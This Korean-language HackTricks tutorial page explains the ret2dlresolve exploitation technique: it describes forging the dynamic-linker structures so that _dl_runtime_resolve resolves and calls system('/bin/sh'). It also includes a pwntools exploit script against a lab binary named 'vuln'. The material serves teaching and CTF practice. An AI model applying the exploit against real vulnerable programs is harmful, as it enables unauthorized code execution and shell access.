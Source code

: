 # Ret2dlresolve

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[**GOT/PLT**](../arbitrary-write-2-exec/aw2exec-got-plt.md) 및 [**Relro**](../common-binary-protections-and-bypasses/relro.md)에 대한 페이지에서 설명한 바와 같이, Full Relro가 없는 바이너리는 처음 사용될 때 기호(외부 라이브러리에 대한 주소와 같은)를 해결합니다. 이 해결은 **`_dl_runtime_resolve`** 함수를 호출하여 발생합니다.

**`_dl_runtime_resolve`** 함수는 지정된 기호를 해결하는 데 필요한 몇 가지 구조체에 대한 참조를 스택에서 가져옵니다.

따라서 요청된 기호(예: **`system`** 함수)를 동적으로 연결하여 해결하도록 **이 모든 구조체를 위조**하고 구성된 매개변수(예: **`system('/bin/sh')`**)로 호출할 수 있습니다.

일반적으로 이러한 모든 구조체는 **쓰기 가능한 메모리에서 `read`를 호출하는 초기 ROP 체인을 만들어 위조**됩니다. 그런 다음 **구조체**와 문자열 **`'/bin/sh'`**가 알려진 위치에 저장되도록 읽기에서 전달되고, 이후 ROP 체인은 **`_dl_runtime_resolve`**를 호출하여 `$'/bin/sh'`의 주소를 사용하여 계속됩니다.

{% hint style="success" %}
이 기술은 syscall 가젯이 없고(예: [**ret2syscall**](rop-syscall-execv.md) 또는 [SROP](srop-sigreturn-oriented-programming.md)와 같은 기술을 사용할 수 없는 경우) libc 주소를 유출할 방법이 없을 때 특히 유용합니다.
{% endhint %}

이 기술에 대한 더 나은 설명은 비디오의 후반부에서 찾을 수 있습니다:

{% embed url="https://youtu.be/ADULSwnQs-s?feature=shared" %}

## Structures

3개의 구조체: **`JMPREL`**, **`STRTAB`** 및 **`SYMTAB`**를 위조해야 합니다. 이러한 구조체가 어떻게 구성되는지에 대한 더 나은 설명은 [https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve#structures](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve#structures)에서 확인할 수 있습니다.

## Attack Summary

1. 가짜 구조체를 어떤 위치에 작성합니다.
2. system의 첫 번째 인수 설정 (`$rdi = &'/bin/sh'`)
3. **`_dl_runtime_resolve`**를 호출하기 위해 스택에 구조체의 주소를 설정합니다.
4. **Call** `_dl_runtime_resolve`
5. **`system`**이 해결되고 `'/bin/sh'`를 인수로 호출됩니다.

## Example

[**이 기술의 예제는 여기에서 찾을 수 있습니다**](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve/exploitation) **최종 ROP 체인에 대한 매우 좋은 설명이 포함되어 있지만, 여기 사용된 최종 익스플로잇은 다음과 같습니다:**
```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = elf.process()
rop = ROP(elf)

# create the dlresolve object
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

rop.raw('A' * 76)
rop.read(0, dlresolve.data_addr) # read to where we want to write the fake structures
rop.ret2dlresolve(dlresolve)     # call .plt and dl-resolve() with the correct, calculated reloc_offset

log.info(rop.dump())

p.sendline(rop.chain())
p.sendline(dlresolve.payload)    # now the read is called and we pass all the relevant structures in

p.interactive()
```
## References

* [https://youtu.be/ADULSwnQs-s](https://youtu.be/ADULSwnQs-s?feature=shared)
* [https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
